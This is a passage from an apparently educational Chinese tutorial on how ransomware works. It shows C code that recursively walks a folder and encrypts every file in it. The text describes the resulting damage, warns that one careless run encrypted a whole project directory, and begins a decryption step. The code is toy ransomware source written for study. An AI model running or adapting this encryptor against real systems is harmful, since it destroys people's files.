 ```
		char temp[256];
		while (ret) {
			//如果找到的是个文件夹 则需要继续查找该文件夹内容
			if (findData.dwFileAttributes == FILE_ATTRIBUTE_DIRECTORY) {
				if(findData.cFileName[0] != '.') {
					//文件夹拼接=原始路径+新文件夹路径
					memset(temp, 0, 256);
					sprintf(temp, "%s\\%s", pathName, findData.cFileName);
					printf("找到一个文件夹：%s\n", temp);
					Sleep(1000);                             //暂停1秒钟
					findFile(temp);
				}
			}
			else { //如果是文件 则加密文件
				memset(temp, 0, 256);
				sprintf(temp, "%s\\%s", pathName, findData.cFileName);
				printf("找到一个文件：%s\n", temp);
				//加密文件
				jiami(temp, pathName);
			}
			//查找下一个文件
			ret = FindNextFile(hFile, &amp;findData);
		}
	}
	return;
}

int main()
{
	char buff[256] = { 0 };
	GetCurrentDirectory(256, buff);
	printf("当前目录是：%s\n\n", buff);
	//加密指定文件夹目录 建议使用虚拟机执行
	findFile("C:\\Users\\xiuzhang\\Desktop\\文件夹加密");

	return 0;
}

```

最终实现效果如下图所示：

指定目录的所有文件已经被加密，图片已经不能显示、EXE程序也不能执行。

图片打开提示“图片错误，无法打开”，EXE程序也无法执行。

接着我们用010editor软件打开加密文件，具体的内容显示如下图所示：

<mark>注意，某次执行代码没修改加密文件夹，将VS当前目录全部加密，工程直接奔溃，最终重新创建工程，所以大家仅能试试指定目录来学习加密和解密原理知识。</mark>

**第八步，编写解密功能。**<br/> 当我们中了勒索病毒，就需要解密，这里我们简单给大家编写一个解密函数。当然，真实环境中，MD5、hash、SHA-1都是比较常用的加密算法。解密文件写有两种方法：

这里由于作者知道加密规则，则进行单个字符奇偶判断写入的处理，代码如下：
